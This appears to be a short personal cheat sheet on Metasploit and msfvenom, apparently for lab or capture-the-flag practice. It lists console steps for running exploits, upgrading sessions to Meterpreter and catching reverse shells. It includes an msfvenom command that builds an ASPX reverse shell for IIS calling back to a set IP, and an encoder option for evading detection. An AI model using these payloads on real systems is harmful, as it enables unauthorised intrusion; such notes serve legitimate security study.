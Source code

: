 # Metasploit

Avoid using it as much as possible. Anything that can be done with msf can be done better manually.

open `msfconsole`
`search <exploit name>`
`use <discovered id>`
`show options` set the required options for the exploit
`exploit` or `run`
you can then hold on to the shell once it has been achieved by putting it into the background `Ctrl-Z`

## Upgrade shell to Meterpreter

### Option 1

search for shell_to_meterpreter use and set session to the session number of the session that needs upgrading

### Option 2

`sessions -u <id>`

## Catching a Reverse Shell

generate the reverse shell in msfvenon
`use exploit/multi/handler`
`set PAYLOAD windows/meterpreter/reverse_tcp`

---------------------------------------------------------------------------

# Msfvenom

There are two types of payloads that can be generated, staged and stageless. Staged means you need msfconsole to complete the shell, used for limited upload space.
Staged, denoted by '/': windows/shell/reverse_tcp
Stageless, denoted by '_': windows/shell_reverse_tcp

To search for payloads: `msfvenom -l payloads | grep windows`
When setting up: `msfvenom -p payload --list-options`

encoders:
	windows: `-a x86 --encoder x86/shikata_ga_nai -f exe -o <filename>.exe`

IIS Example: `msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.219.14 --platform windows -a x64 -f aspx -o shell.aspx`
